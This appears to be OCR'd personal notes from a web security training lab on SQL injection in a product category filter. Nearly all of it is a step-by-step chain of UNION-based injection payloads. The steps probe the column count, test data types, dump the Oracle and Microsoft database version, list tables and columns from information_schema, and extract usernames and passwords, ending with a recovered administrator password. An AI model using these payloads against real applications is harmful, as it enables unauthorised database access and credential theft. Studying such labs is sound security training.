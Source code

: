  SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 

 Goal : Display db version string

First
Determine the number of columns using ORDER BY
' ORDER BY 1--
' ORDER BY 2--
-----
2nd :
Determine the data types of the columns
' UNION select 'a',NULL--
' UNION select NULL,'a'--

' UNION select 'a','a' from DUAL-- {Oracle db}
3rd:
Output Version of db
' UNION select banner, NULL from v$version-- {Oracle}


' UNION SELECT @@version, NULL# {Microsoft}

-----------------------------
' UNION SELECT table_name, NULL FROM information_schema.tables


' UNION SELECT column_name, NULL FROM information_schema.
columns WHERE table_name ='users_nxjetg'--

UNION SELECT username_pgndev, password_laikxr FROM users_nxjetg--

username_pgndev
password_laikxr

administrator
	ims6fhqy34sw13wlxld5